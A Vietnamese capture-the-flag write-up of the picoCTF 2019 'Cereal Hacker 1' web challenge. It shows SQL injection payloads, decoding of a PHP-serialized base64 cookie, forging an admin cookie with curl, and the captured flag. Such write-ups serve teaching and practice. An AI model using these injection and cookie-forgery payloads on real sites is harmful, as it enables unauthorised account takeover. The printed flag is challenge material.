 # CEREAL-HACKER-1
### Thể loại: Web Exploitation.
### Thử thách: 
Đăng nhập vào tài khoản admin của trang web sau: https://2019shell1.picoctf.com/problem/32256/
### Gợi ý: không có
### Kiến thức nền:
 - Local file inclusion.
 - SQL injection.
 - HTTP cookie.
 - PHP Object injection.
### Giải quyết vấn đề:
Okay, trước tiên chúng ta hãy test thử trang login này nào.
![enter image description here](https://res.cloudinary.com/practicaldev/image/fetch/s--ge4uP4DX--/c_limit,f_auto,fl_progressive,q_auto,w_880/https://thepracticaldev.s3.amazonaws.com/i/q1glk24z4czgq8pl6nqr.png)

1/ Kiểm tra lỗ hổng SQL Injection: 
 - Tại mục username, thử nhập "admin" rồi nhập `'OR 1=1; --` tại mục password để test thử -> Invalid Login. 
 - Có khả năng Password đã được filter. Thử nhập ngay tại username là `admin'--` rồi nhập random tại password-> Invalid Login.

2/ Kiểm tra lỗ hổng Local File Inclusion:
URL của trang login này là: https://2019shell1.picoctf.com/problem/32256/index.php?file=login. Hmm, đoạn `index.php?file=login` khiến mình khá là trigger:v Thay "login" bằng "admin" thử xem sao. Bật curl lên múa thôi nào các bạn:))

```html
root@antoine:~# curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>
```

URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin dẫn ta đến một local file của web server như phía dưới:

![PicoCTF 2019: Cereal Hacker 2 (500p) - DEV](https://res.cloudinary.com/practicaldev/image/fetch/s--YnxtPU-W--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/ffnkvrvpvxh0qxqrsro4.png)

F12 để check xem cookie thế nào thì cũng không thấy gì đặc biệt. Thôi thì bấm vào "Go back to login" để quay lại cái trang login ban đầu vậy:((

3/ Kiểm tra dữ liệu HTTP POST:

Trong lúc bắt đầu thấy nản vcl thì mình nảy ra ý tưởng: "Có tài khoản admin thì phải có tài khoản guest chứ nhỉ?" Nhập vào username và password đều là "guest" thử xem. Tada!

![picoCTF 2019 - cereal hacker 1](https://blog.kakaocdn.net/dn/cj4IyA/btqyYPR6PT0/ZK8nMXznDOfidw8oyK44O0/img.png) 

Khi nhập vào các mục của trang login, mình nhận thấy không có bất kì thay đổi gì đặc biệt trên thanh URL ngoài `file=regular_user` . Vậy nhiều khả năng input được truyền tới server bằng phương thức POST. Bật curl lên và xem dữ liệu HTTP POST được gửi tới server như nào thôi nào:3
Dùng lệnh: 
```console
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=login --data "user=guest&pass=guest" -v 
```
Sau một hồi căng mắt dò từng dòng một trong đống output dài vê lờ thì mình đã tìm thấy một thứ khả nghi:
```console
Set-Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D;
```
Đây chính là [HTTP Cookie](https://viblo.asia/p/ban-da-hieu-ro-ve-http-cookie-djeZ1DvGKWz) trong header mà web browser gửi lên cho server.  Cookie user_info này rất có thể được mã hóa base64. Vào 1 trang [Base64 Decoder](https://www.base64decode.org/) để decode thử, ouput là: 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Output ở phía trên trông khá giống như một [serialized](https://en.wikipedia.org/wiki/Serialization) object trong PHP, và object này thể hiện các thông tin bao gồm username và password. Cùng nhau phân tích output nào:
```
O:11:"permissions": --> object có tên là "permissions",độ dài của string "permissions" là 11 kí tự.
    2: --> số lượng thuộc tính của object "permissions", gồm username và password. 
        {
            s:8:"username"; s:5:"guest"; --> tên của thuộc tính name là một string độ dài 8, giá trị của nó là 1 string độ dài 5.
            s:8:"password"; s:5:"guest"; --> tên của thuộc tính password là một string độ dài 8, giá trị của nó là 1 string độ dài 5.  
        }
```
4/ PHP Object injection:
Object này chứa thông tin để xác thực tài khoản "guest". Vậy nếu chúng ta sửa username thành admin và sử dụng SQL injection để bypass password rồi gói payload này vào 1 [custom HTTP headers](https://www.keycdn.com/support/custom-http-headers)
rồi gửi nó ngược lại cho thằng server thì sao nhỉ? Okay, triển thôi (lưu ý phải thay đổi luôn cả độ dài của string ứng với từng mục nhập vào):

 ```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:12:"' OR 1=1; --";}
```
Mã hóa base64 đống payload này. Sau đó gán output sau khi encode vào cookie user_info chúng ta sẽ gửi nó tới server thông qua URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin như sau:
```console 
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin -H "Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTI6IicgT1IgMT0xOyAtLSI7fQ" && echo
```
Hic hic, server trả về đúng trang cũ (You are not admin!). Có khả năng server đã lọc được kí tự comment "--". Tiếp tục thử payload khác nào: 
```
O:11:"permissions":2:O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"Antoine' or password like '%";}
```
Trong đó `or password like '%` có nghĩa là "hoặc trường password của bản ghi có value bắt đầu bằng null". Mà không có string nào là không bắt đầu bằng null cả nên nó đúng với mọi user nằm trong table (chi tiết xem tại [đây](https://www.w3schools.com/sql/sql_like.asp)). Do đó cho dù password có nhập cái vẹo gì đi chăng nữa chúng ta vẫn login đc vào tài khoản admin. Lặp lại các bước như phía trên ta thu được:

```html
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

</html>

```
Hai cái payload này chỉ là một số hàng chục payload mà mình đã thử:v Vì bài viết có hạn nên chỉ xin giới thiệu từng này:))) Các bạn có thể tham khảo các câu lệnh SQL để inject vào mục tiêu thông qua các cheat sheet nha:3

Anyway, this is the endgame!!!!
